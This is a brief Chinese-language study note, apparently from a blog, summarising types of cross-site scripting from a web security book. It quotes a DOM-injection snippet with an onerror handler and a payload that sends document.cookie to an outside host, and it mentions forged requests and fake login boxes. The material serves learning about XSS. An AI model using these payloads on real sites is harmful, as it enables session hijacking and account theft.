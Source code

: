 title: "xss小记(1)"
date: 2014-11-12 22:44:00
tags:
---

看《白帽子讲web安全》笔记整理

xss本身叫css的(cross site script)

但是为了区分style sheet简称xss

xss基本分为如下三种

1.反射型XSS

     需要用户触发点击

2.存储型XSS

     强稳定性，因存储在服务器上,当用户访问到脚本时候，即可构成攻击

3.DOM-xss

     严格意义上说也属于反射型XSS，通过修改页面DOM节点形成xss

     通过构建html

     example:

    ```

     &lt;a href=‘“+str+”&gt;innerhtml&lt;/a&gt;
     &lt;a href=“ 此处提前闭合标签
     ‘&gt;&lt;img onerror=“xss()”&gt;

     ```

XSS payload

1.  `img.src=“[http://blue.com/log](http://blue.com/log)?” + escape(document.cookie)`

     并不一定log？这个php文件一定存在，服务器log文件也会存有get请求日志

     cookie劫持，可以模拟用户登录，造成一定危害性

    2.伪造GET\POST请求

        *   可模拟GET请求，删除文章，邮件，等！*   document.createElement(“form”)；

        form.submit();
    *   XMLHttpRuquest发送post

XSS钓鱼

     伪造登录框

     获取cookie，即可伪造你的登录。。想想太可怕了

感想就是,js可以做的事情太多了。。这是另外一种看js的角度，赞

《web前端黑客技术解密》在读

未完待续